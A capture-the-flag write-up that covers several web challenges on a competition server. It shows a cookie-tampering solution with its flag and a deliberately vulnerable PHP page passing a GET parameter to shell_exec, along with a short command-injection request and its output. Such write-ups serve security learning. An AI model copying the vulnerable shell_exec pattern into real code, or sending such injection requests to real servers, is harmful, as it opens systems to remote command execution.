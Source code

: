 ### Countdown (60) :trophy:
> We hear something beeping... is there something in the oven?

We are told to conect to this address `http://jh2i.com:50036`.  
<br/>
This one has us looking at a static html page with alink to a `defuse.php` script.  
<br/>
Click it, we are told we are "too late".  
<br/>
If you look for cookies in the dev options pane you see defuse_time.  
<br/>
Set that to a a large number and see what happens.  
<br/>
:checkered_flag: `LLS{saving_lives_with_cookies}`
<br\>
<br\>

### Hot Access (70) :x:
> Access to all the latest modules, hot off the press! What can you access?

This is the address ` http://jh2i.com:50016`.
<br/>
<br/>

### Magician (80) :x:

### PHPJuggler (80) :x:

### GLHF (90) :x:

### JaWT (90) :x:

### MASK (90) :x:

### 10 Character Web Shell (100) :trophy:
> Only 10 char--

Navigate to a given address `http://jh2i.com:5000` and we are greeted with:
```php
<?php

    $c = $_GET[c];

    if(strlen($c) < 10){
            echo shell_exec($c);
    }else{
            echo "too long!";
    }
    highlight_file(__FILE__);
?>
```
<br/>
Looks like we get shell execution, as long as its under 10 chracters.  Let's try it.  
```
http://jh2i.com:50001/?c=ls%20fl*
```
```php
flag.txt
<?php

    $c = $_GET[c];

    if(strlen($c) < 10){
```